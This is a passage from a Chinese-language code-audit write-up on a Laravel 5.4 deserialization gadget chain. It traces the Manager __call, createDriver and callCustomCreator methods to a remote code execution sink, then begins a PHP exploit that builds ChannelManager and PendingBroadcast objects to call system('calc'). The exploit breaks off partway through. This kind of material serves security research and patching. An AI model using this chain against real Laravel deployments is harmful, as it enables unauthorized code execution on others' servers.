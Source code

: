 ## POC链-3
> 跟进 `src/Illuminate/Support/Manager.php` 中的 `__call()` 方法，其调用 `driver()` 方法

<img src="./Laravel5.4 反序列化代码审计/poc-3-1.png" alt="">

> 跟进 `createDriver()` 方法，当 `$this->customCreators[$driver]` 存在时调用 `callCustomCreator()` 方法，进一步跟进 `callCustomCreator()` 方法，发现 `$this->customCreators[$driver]` 和 `$this->app)` 均是可控的，因此可以触发 RCE

<img src="./Laravel5.4 反序列化代码审计/poc-3-2.png" alt="">

### exp
```php
<?php
namespace Illuminate\Notifications {
    class ChannelManager {
        protected $app;
        protected $customCreators;
        protected $defaultChannel;
        public function __construct() {
            $this->app = 'calc';
            $this->defaultChannel = 'H3rmesk1t';
            $this->customCreators = ['H3rmesk1t' => 'system'];
        }
    }
}


namespace Illuminate\Broadcasting {
    use  Illuminate\Notifications\ChannelManager;
    class PendingBroadcast {
        protected $events;
```